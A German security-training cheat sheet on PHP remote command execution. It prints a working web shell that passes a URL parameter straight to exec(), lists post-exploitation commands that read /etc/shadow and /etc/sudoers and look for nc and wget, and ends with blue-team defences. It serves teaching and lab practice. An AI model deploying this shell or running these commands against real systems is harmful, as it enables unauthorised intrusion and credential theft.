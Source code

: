 # 🐘 phpRCE Cheat Sheet


---

## Inhaltsverzeichnis
- [Einleitung: Remote Command Execution in PHP](#einleitung-remote-command-execution-in-php)
- [Beispiel: Verwundbarer PHP-Code](#beispiel-verwundbarer-php-code)
- [Sicherheitsanalyse](#sicherheitsanalyse)
- [Typische Post-Exploitation-Befehle](#typische-post-exploitation-befehle)
- [Anwendungsszenarien (für Lab- oder CTF-Zwecke)](#anwendungsszenarien-für-lab--oder-ctf-zwecke)
- [Verteidigung (Blue Team)](#verteidigung-blue-team)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung: Remote Command Execution in PHP

Diese Datei beschreibt ein typisches Beispiel für **Remote Command Execution (RCE)** durch eine unsichere PHP-Webanwendung.  
Der Code ermöglicht es Angreifern, über einen GET-Parameter (`?cmd=`) beliebige Shell-Befehle auf dem Zielsystem auszuführen – **ein schwerwiegender Sicherheitsfehler**.

---

## Beispiel: Verwundbarer PHP-Code

```php
<?php
  if( empty( $_GET["cmd"] ) ){
    echo "Useful things:\n";
    echo "  uname -a\n";
    echo "  id\n";
    echo "  cat /etc/passwd\n";
    echo "  cat /etc/shadow\n";
    echo "  cat /etc/group\n";
    echo "  cat /etc/group | grep admin\n";
    echo "  cat /etc/sudoers\n";
    echo "  ls -la /home\n";
    echo "  ls -la /root\n";
    echo "  ls -la /var/www\n";
    echo "  which nc\n";
    echo "  which wget\n";
    echo "  find / -type f -perm -4000\n";
  }
  echo "<pre>";
  exec( $_GET["cmd"], $out );
  echo htmlentities( join( "\n", $out ) );
  echo "</pre>";
?>
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Sicherheitsanalyse

### ❌ Problem:

Die Funktion `exec($_GET["cmd"])` erlaubt die ungefilterte Ausführung von Systembefehlen, die über die URL übergeben werden.

→ Beispiel:
`http`
```http://target.local/rce.php?cmd=whoami```

### 🛠️ Besser wäre:

- Verwendung vorbereiteter Kommandos ohne Benutzereingaben.
- Whitelisting erlaubter Befehle.
- Nutzung von `escapeshellcmd()` und `escapeshellarg()` (nur bedingt sicher).
- Oder: Verzicht auf Shell-Zugriffe aus Webanwendungen.

---

## Typische Post-Exploitation-Befehle

| Befehl                       | Beschreibung                                          |                                   |
| ---------------------------- | ----------------------------------------------------- | --------------------------------- |
| `uname -a`                   | Kernel & OS-Details                                   |                                   |
| `id`                         | Aktueller Benutzer & Gruppen                          |                                   |
| `cat /etc/passwd`            | Benutzerliste                                         |                                   |
| `cat /etc/shadow`            | Passwort-Hashes (nur als root lesbar)                 |                                   |
| `cat /etc/group`             | Gruppenliste                                          |                                   |
| `cat /etc/group`             | grep admin                                            | Prüfen, wer in "admin"-Gruppe ist |
| `cat /etc/sudoers`           | Wer hat Root-Rechte über sudo                         |                                   |
| `ls -la /home`               | Benutzerverzeichnisse prüfen                          |                                   |
| `ls -la /root`               | Root-Verzeichnis prüfen (meist geschützt)             |                                   |
| `ls -la /var/www`            | Webverzeichnis analysieren                            |                                   |
| `which nc`                   | Ist Netcat vorhanden?                                 |                                   |
| `which wget`                 | Ist wget verfügbar für Datei-Downloads?               |                                   |
| `find / -type f -perm -4000` | Alle SUID-Binaries finden (root privilege escalation) |                                   |

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Anwendungsszenarien (für Lab- oder CTF-Zwecke)

- 🧪 Testen von Webshells in Laborumgebungen
- 🔍 Auffinden & Ausnutzen von RCE-Schwachstellen
- 🔐 Erkennen typischer Privilege Escalation-Pfade
- 🛠️ Automatisierung mit curl, Burp oder Exploitskripten

--- 

## Verteidigung (Blue Team)

- Verwende niemals Benutzereingaben direkt in `exec()`, `system()`, `passthru()` etc.
- Setze Application Firewalls ein (z. B. ModSecurity).
- Nutze sichere Webframeworks mit Sandboxing.
- Begrenze Rechte des Webservers (z. B. www-data darf nicht root sein).
- Erkenne Anomalien per Logüberwachung (z. B. suspicious cmd= Requests).

---

## Siehe auch

- [sql_injection_to_shell.md](/03-web-security/injektionen/sql_injection_to_shell.md)
- [break_and_fix_query.md](/03-web-security/break-fix/break_and_fix_query.md)
- [union_based_attack.md](/14-vulnerabilities/sqlInjection/union_based_attack.md)
- [post_exploitation_tools.md](/04-os-enumeration/post_exploitation_tools.md)

----

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---